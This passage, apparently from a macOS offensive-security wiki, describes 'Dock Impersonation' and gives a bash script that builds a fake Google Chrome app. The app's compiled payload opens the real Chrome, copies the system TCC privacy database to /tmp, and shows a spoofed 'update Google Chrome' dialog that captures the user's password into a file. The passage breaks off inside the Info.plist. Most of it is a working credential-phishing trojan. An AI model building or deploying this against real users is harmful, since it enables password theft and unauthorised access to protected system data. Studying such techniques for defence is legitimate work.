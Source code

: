 ### Dock Impersonation

Using some **social engineering** you could **impersonate for example Google Chrome** inside the dock and actually execute your own script:

{% tabs %}
{% tab title="Chrome Impersonation" %}
Some suggestions:

* Check in the Dock if there is a Chrome, and in that case **remove** that entry and **add** the **fake** **Chrome entry in the same position** in the Dock array.&#x20;

```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)
# If you want to removed granted TCC permissions: > delete from access where client LIKE '%Chrome%';

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
cat > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c <<EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    char *cmd = "open /Applications/Google\\\\ Chrome.app & "
                "sleep 2; "
                "osascript -e 'tell application \"Finder\"' -e 'set homeFolder to path to home folder as string' -e 'set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias' -e 'set targetFolder to POSIX file \"/tmp\" as alias' -e 'duplicate file sourceFile to targetFolder with replacing' -e 'end tell'; "
                "PASSWORD=\$(osascript -e 'Tell application \"Finder\"' -e 'Activate' -e 'set userPassword to text returned of (display dialog \"Enter your password to update Google Chrome:\" default answer \"\" with hidden answer buttons {\"OK\"} default button 1 with icon file \"Applications:Google Chrome.app:Contents:Resources:app.icns\")' -e 'end tell' -e 'return userPassword'); "
                "echo \$PASSWORD > /tmp/passwd.txt";
    system(cmd);
    return 0;
}
EOF

gcc /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c -o /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome
rm -rf /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>CFBundleExecutable</key>
    <string>Google Chrome</string>
    <key>CFBundleIdentifier</key>
    <string>com.google.Chrome</string>
```